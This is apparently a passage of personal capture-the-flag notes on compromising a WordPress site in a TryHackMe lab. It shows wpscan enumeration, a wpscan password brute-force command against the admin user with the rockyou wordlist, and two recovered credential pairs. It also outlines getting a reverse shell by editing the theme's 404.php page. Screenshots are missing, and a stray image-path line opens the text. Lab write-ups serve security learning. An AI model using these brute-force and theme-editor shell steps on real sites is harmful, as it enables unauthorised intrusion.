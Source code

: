 scanning it via wpscan

wordpress 5.4.2

![[Pasted image 20210529162626.png]]

and we can bruteforce the creds and admin is a username 

![[Pasted image 20210529162713.png]]

`wpscan --url http://internal.thm/wordpress/  -U admin -P /usr/share/wordlists/rockyou.txt -t 50`

![[Pasted image 20210529163002.png]]

`admin:my2boys`

![[Pasted image 20210529163129.png]]

and in the posts section there is a private post 

![[Pasted image 20210529163248.png]]

and another creds

![[Pasted image 20210529163309.png]]

`william:arnold147`

## rev shell

edit the 404 page

http://internal.thm/blog/wp-admin/theme-editor.php?file=404.php&theme=twentyseventeen

listen on port 

`curl http://internal.thm/wordpress/` 

![[Pasted image 20210529163918.png]]